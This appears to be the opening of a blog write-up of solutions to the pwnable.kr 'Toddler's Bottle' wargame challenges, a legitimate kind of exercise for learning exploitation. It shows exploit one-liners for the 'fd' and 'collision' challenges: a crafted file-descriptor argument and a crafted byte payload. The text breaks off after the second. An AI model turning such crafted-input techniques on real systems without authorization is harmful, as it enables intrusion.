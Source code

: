 ```yaml
---
title: "pwnable.kr - Toddler's Bottle"
layout: post
date: 2017-06-11 4:21
tag:
- Pwning
- Hacking
- CTF
writeup: true
star: false
points: ∞
category: Pwn
---
```


![Pwnable.kr](/assets/images/pwnablekr.png)

**[pwnable.kr](http://pwnable.kr) is a wargame site which provides various pwn challenges regarding system exploitation. The main purpose of pwnable.kr is having "fun" while improving one's hacking skills ;)**

Toddler's Bottle is a section of easy-ish challenges. This writeup contains solutions to almost all of the challenges in that section.

So partly due to lack of time and partly because I want you to think on your own, I'll not be explaining my solutions like I do for my other [Writeups](../). I'll just be posting my python/bash/C scripts here with occasional explanations.

The scripts use the `pwntools` library.

## fd

```bash

fd@ubuntu:~$ ./fd `python -c 'print "%d"% 0x1234'`
LETMEWIN
good job :)
******** flag_redacted ***********
```

## collision

```bash

col@ubuntu:~$ ./col `python -c 'print "\xe8\x05\xd9\x1d" + "\x01"*16'`
````
